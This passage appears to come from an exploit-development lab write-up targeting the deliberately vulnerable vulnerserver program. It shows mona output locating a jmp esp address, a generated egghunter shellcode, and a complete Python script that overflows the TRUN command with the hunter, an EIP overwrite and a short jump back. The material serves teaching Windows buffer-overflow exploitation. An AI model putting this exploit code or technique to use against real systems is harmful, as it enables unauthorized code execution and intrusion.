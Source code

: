 ```txt
!mona jmp -r esp
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False,
 SafeSEH: False, OS: True, v-1.0- (C:\Users\WindowsUser\Desktop\vulnserver\essfunc.dll)
```

* * *

## Setting up the hunt

We are not yet finished with our initial buffer. We haven't generated the shellcode which will trigger the egg hunt. We can use mona again to help us create the hunter.

```txt
!mona help egg
!mona egg -t w00t
Egghunter , tag w00t :
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
Put this tag in front of your shellcode : w00tw00t
```

Lets place it inside our skeleton script in the initial buffer. We need to take away part of the "A"s that we are sending to overflow the application. In total, the buffer must still equal 2003 bytes before we write to EIP.
`2003 - len(hunter) - 5`

We also need to "jump back" 50 bytes to get to our hunter shell code. We can use the windows calculator for this and find that we need `\xCE` number of bytes. The jump opcode is `\xEB`.

```py
#!/usr/bin/python
import os, sys, socket

ip = "10.21.1.15"
port = 9999

# Badchars: \x00

hunter = (
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
)

# EIP: 625011AF
eip = "\xaf\x11\x50\x62"
jumpBack = "\xEB\xCE\x90\x90"

stage1 = "A"* (2003-len(hunter)-5) + hunter + "A" * 5 + eip + jumpBack

command = "TRUN /.:/"

buffer = command + stage1

exploit = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
exploit.connect((ip, port))
exploit.send(buffer)
exploit.close()
```
